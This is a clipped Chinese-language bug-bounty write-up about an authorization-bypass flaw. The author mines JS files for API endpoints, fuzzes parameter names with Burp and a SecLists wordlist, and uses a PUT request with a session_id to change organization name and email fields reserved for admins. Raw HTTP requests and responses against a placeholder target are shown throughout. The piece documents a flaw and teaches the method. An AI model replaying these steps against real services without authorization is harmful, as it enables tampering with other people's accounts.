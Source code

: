 ```yaml
---
title: 利用 JS 文件检查与 Fuzz 进行越权操作
url: https://mp.weixin.qq.com/s/OzUasalwDCfRzcluUiTZvA
clipped_at: 2024-03-24 08:39:59
category: default
tags: 
 - mp.weixin.qq.com
---
```



# 利用 JS 文件检查与 Fuzz 进行越权操作

漏洞的发现是通过检查网站源代码中的 JS 文件，在这些 JS 文件中，发现了一些可疑 API 端点。通过 Fuzz 技术来确认这些 API 端点的参数，并最终对高权限 API 端点进行越权操作。  

# 好的，让我们现在开始吧！

在这个网站上，我们可以在所在的组织内创建项目。但是组织名称和电子邮件地址是无法更改的！如果想要更改它们，需要联系管理员或支持团队！

![图片](assets/1711240799-119da14851ec25b6854db14cba508cff.webp)

首先，当我检查 JS 文件时，发现了很多文件，但有一个特定的文件引起了我的注意，因为它包含了该网站使用的许多 API 端点的请求！该网站使用 API 系统地址是：

```plain
https://target.com/endpoints/organization/<ACTION>
```

在那个我提到的 JS 文件中，我发现了一个有趣的端点：

```plain
/endpoints/organization/update
```

JS 文件中源码如下

```plain
saveOrganization: async a => _({
            method: "PUT",
            endpoint: "/endpoints/organization/update",
            body: a
        }).then(r => n(r)),
```

我想知道这个端点在做什么。

所以我按照 JS 源码中的格式构造了一个数据包发送。就像下面这样。

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: <https://home.target.com/>
Content-Type: application/json
Content-Length: 76
Origin: <https://home.target.com/>
```

返回了一个预期响应结果，因为我没有在 PUT 请求中添加任何数据。

```plain
HTTP/2 500 Internal Server Error

{"error": {"code": "500", "message": "A server error has occurred"}}
```

因此我决定发送一些随机数据 ({"hello":"goodbye"})，测试一下这个端点。

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: https://home.target.com/
Content-Type: application/json
Content-Length: 76
Origin: https://home.target.com/

{"hello":"goodbye"}
```

```plain
HTTP/2 500 Internal Server Error]

{"message":"Error: This user does not have admin access!","type":"error"}
```

我在这个网站上搜索了将近 4，5 天，我知道哪些参数可能会是那个会话/令牌！！

这个令牌是必需的，并且在 API 端点的所有请求中使用。每个账户都有一个特定的令牌，但每个 API 端点都用不同的名称来调用该令牌，比如一个 API 端点调用它为 code，另一个 API 端点调用为 token，session，tokenId，session\_id，access，org\_id，id，org 或 user。

我还使用了一个名为 Param Miner 的 Burp 扩展，它会收集 Burp 历史记录中特定目标请求的所有参数。这对于清楚地提取这些参数名称非常有帮助！因此，我从一个随机请求中获取了一个令牌，并开始逐个使用所有这些参数名称发送它。

Boom！！最终！！我使用了自己的令牌的 session\_id！一切正常！

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: https://home.target.com/
Content-Type: application/json
Content-Length: 76
Origin: https://home.target.com/

{"session_id":"9n5n6zxxxxxxxxxllye4ul"}
```

```plain
HTTP/2 400 Bad Request
{"message":"No data to update"}
```

现在我的会话已成功验证！！服务器回复“没有数据需要更新”，这意味着它正在等待我提交一个值来进行更改！！

现在是时候对我可以更改的参数进行模糊测试了。显然，我在此过程中使用了字典来对参数进行 Fuzz：https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt。

将我的请求发送到 Burp 的 Intruder 中，粘贴了我的列表，发送了一个数据如下：{"session\_id":"9n5n6zdxxxxxxxx05llye4ul", "":"changevalueeeee"}

我开始进行模糊测试后的 3-4 分钟里，我注意到了不同的状态码和响应长度，我必须检查一下！在这里，我找到了一个允许我更改组织名称/电子邮件的请求！但这不允许！这个操作只能由管理员/支持人员执行！

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: https://home.target.com/
Content-Type: application/json
Content-Length: 76
Origin: https://home.target.com/

{"session_id":"9n5n6xxxxxxxxxxc05llye4ul", "name":"changevalueeeee"}
```

```plain
HTTP/2 200 OK
{"billing_enabled":false,"billing_type":"trial","created_at":1676997471,"data_streams_plan":"starter","email_address":"xxxxxxxxxxx@xxxxxxxx.xxx","feature_flag":{"allow_usage_billing":false,"forever_free_tier":false},"first_non_auth_api_call_made":null,"id":"2lxxxxxxxxxxzf49rtjd8ia","invoices":null,"is_marketplace_org":false,"marketplace_id":null,"name":"changevalueeeee","stripe_customer_id":null,"trial_end_date":1678207071}
```

在我的响应中，我看到了"email\_address":"xxxxxxxxxxx@xxxxxxxx.xxx"，那是我的组织电子邮件地址，我无法更改它！！

我尝试将其发送到 POST 数据中并设置一个新的电子邮件地址，所以我发送了 email\_address 和 session\_id 以及 name。然后得到了：

![图片](assets/1711240799-163ed0e13a322f77917c865ee1e84b43.webp)

就这样，成功 hack 了它。可以进行越权操作，修改组织的信息。